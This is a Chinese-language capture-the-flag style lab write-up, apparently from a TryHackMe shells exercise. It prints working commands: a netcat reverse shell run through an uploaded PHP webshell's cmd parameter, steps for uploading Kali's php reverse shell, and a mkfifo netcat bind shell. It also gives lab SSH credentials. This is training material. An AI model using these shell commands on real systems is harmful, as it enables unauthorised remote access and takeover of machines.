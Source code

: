 在攻击机上打开Netcat监听器：

![image-20221007234320712](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007234320712.png)

上传webshell到目标站点，并在目标站点webshell页面的url栏中执行回连netcat监听器的命令：

```shell
nc 10.10.154.186 1234 -e /bin/bash     #这行命令在url栏中执行，前面还有http://10.10.234.65/uploads/webshell.php?cmd=
```

![](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007234952053.png)

![image-20221007235055917](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007235055917.png)

成功建立反向shell：

![image-20221007235222844](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007235222844.png)

#### **操作二**

要求：使用kali中的/usr/share/webshell/php/php-verse-shell.php，更改 IP 和端口，使其与自定义端口匹配。设置一个 netcat 监听器，然后上传并激活 shell。

准备好php-verse-shell.php文件：

![image-20221008000046415](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008000046415.png)

![image-20221008000257557](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008000257557.png)

在攻击机上设置netcat监听器，上传反向shell文件，建立反向shell：

![image-20221008000552594](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008000552594.png)

![image-20221008000707213](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008000707213.png)

#### **操作三**

要求：使用提示给的凭据通过 SSH 登录到目标Linux 机器，使用netcat尝试建立绑定和反向 netcat shell。

使用ssh登录目标机器

* **Username:** shell
* **Password:** TryH4ckM3!

![image-20221008001443655](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008001443655.png)

使用netcat建立绑定shell，使用ssh界面设置监听器（远程为目标机设置监听器），在攻击机上发出shell连接（此处使用创建命令管道的技巧）：

```shell
#在ssh界面输入（远程为目标机设置监听器）：
mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
#在攻击机终端输入：
nc 10.10.234.65 4444
#执行成功后，在下图的左侧输入命令操作
```
